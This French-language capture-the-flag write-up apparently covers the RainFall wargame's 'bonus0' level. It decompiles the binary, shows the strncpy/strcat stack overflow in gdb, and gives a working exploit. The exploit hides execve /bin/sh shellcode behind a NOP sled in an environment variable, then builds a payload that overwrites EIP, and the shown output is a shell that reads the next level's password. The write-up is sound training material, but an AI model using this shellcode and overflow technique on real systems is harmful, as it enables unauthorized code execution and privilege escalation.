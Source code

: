 # **Bonus 0**

Pour le `bonus0`, on decompile le code

```
void p(char *param_1,char *param_2)
{
  char *pcVar1;
  char local_100c [4104];
  
  puts(param_2);
  read(0,local_100c,0x1000);
  pcVar1 = strchr(local_100c,10);
  *pcVar1 = '\0';
  strncpy(param_1,local_100c,0x14);
  return;
}

void pp(char *param_1)
{
  char cVar1;
  uint uVar2;
  char *pcVar3;
  byte bVar4;
  char local_34 [20];
  char local_20 [20];
  
  bVar4 = 0;
  p(local_34,&DAT_080486a0);
  p(local_20,&DAT_080486a0);
  strcpy(param_1,local_34);
  uVar2 = 0xffffffff;
  pcVar3 = param_1;
  do {
    if (uVar2 == 0) break;
    uVar2 = uVar2 - 1;
    cVar1 = *pcVar3;
    pcVar3 = pcVar3 + (uint)bVar4 * -2 + 1;
  } while (cVar1 != '\0');
  *(undefined2 *)(param_1 + (~uVar2 - 1)) = 0x20;
  strcat(param_1,local_20);
  return;
}

undefined4 main(void)
{
  char local_3a [54];
  
  pp(local_3a);
  puts(local_3a);
  return 0;
}
```

Le programme lit l'input de l'utilisateur sur 4096 caracteres et remplace le premier `\n` par un `\0` et recupere les 20 premiers caracteres pour les stocker dans
un buffer, mais si le premier `\n` n'est pas dans les 20 premiers caractere alors le buffer ne contients pas forcement de `\0`

Le programme fais cela deux fois puis concatene les deux chaines en mettant un espace entre les deux, sachant que le buffer de destination fais 54 caracteres
Cependant, comme les string ne sont pas fini correctement, le premier strcpy ecrit le premier buffer + tout ce qu'il y a derriere tant qu'il ne rencontre pas de `\0`

```
(gdb) run 
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/bonus0/bonus0 
 - 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
 - 
bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb

Breakpoint 1, 0x0804854c in pp ()
(gdb) x/64wx $esp
0xbffff460:	0xbffff49c	0x080486a0	0x00000000	0xb7fd0ff4
0xbffff470:	0xbffff4be	0xbffff4bf	0x00000001	0xb7ec3c49
0xbffff480:	0xbffff4bf	0xbffff4be	0x61616161	0x61616161
0xbffff490:	0x61616161	0x61616161	0x61616161	0x62626262
0xbffff4a0:	0x62626262	0x62626262	0x62626262	0x62626262
0xbffff4b0:	0xb7fd0ff4	0x00000000	0xbffff508	0x080485b9
0xbffff4c0:	0xbffff4d6	0x080498d8	0x00000001	0x0804835d
```

Comme notre premiere et seconde chaines sontcolle dans la memoire, plus 4 bits != 0, la premiere chaine ecrit `44` caracteres
sachant que le code rajoute un espace, il ne reste que `9` caracteres avant d'overflow

```
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/bonus0/bonus0 
 - 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
 - 
ABCDEFGHIJKLMNOPQRSTUVWXYZ

(gdb) n
Single stepping until exit from function main,
which has no line number information.
aaaaaaaaaaaaaaaaaaaaABCDEFGHIJKLMNOPQRST��� ABCDEFGHIJKLMNOPQRST���

Breakpoint 2, 0x080485cb in main ()
(gdb) si
0x4d4c4b4a in ?? ()

```

Donc nous pouvons reecrire `eip` a la place de `JKLM` soit apres le 9eme caractere de la deuxieme chaine

Comme nous n'avons pas beaucoup de place pour ecrire notre `shellcode`, nous allons utiliser l'environnement

```
bonus0@RainFall:~$ export SHELLCODE=$(python -c "print'\x90'*500+'\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh'")
```

Nous ecrivons notre shellcode precede de `\x90 (nop)` dans l'environnement
Puis nous recuperons l'addresse de notre variable

```
bonus0@RainFall:~$ cat /var/crash/getenvaddr.c 
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char **argv, char **env)
{
	printf("Addr of %s = %p\n", argv[argc-1], getenv(argv[argc - 1]));
}
bonus0@RainFall:~$ cd -
/var/crash
bonus0@RainFall:/var/crash$ ./a.out SHELLCODE
Addr of SHELLCODE = 0xbffff6ff

```
Nous tapons alors au milieu des NOP, pour prevenir d'eventuelle changement dans la stack soit en `0xbffff7ff`
Nous ecrivons alors notre payload

```
bonus0@RainFall:~$ python -c "print'a'*4095+'\n'+'b'*9+'\xff\xf7\xff\xbf'+'c'*7" > /var/crash/file 
bonus0@RainFall:~$ cat /var/crash/file - | ./bonus0 
 - 
 - 
aaaaaaaaaaaaaaaaaaaabbbbbbbbb����ccccccc��� bbbbbbbbb����ccccccc���
id
uid=2010(bonus0) gid=2010(bonus0) euid=2011(bonus1) egid=100(users) groups=2011(bonus1),100(users),2010(bonus0)
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

> ### NEXT : [Bonus1](/bonus1/resources/README.md)
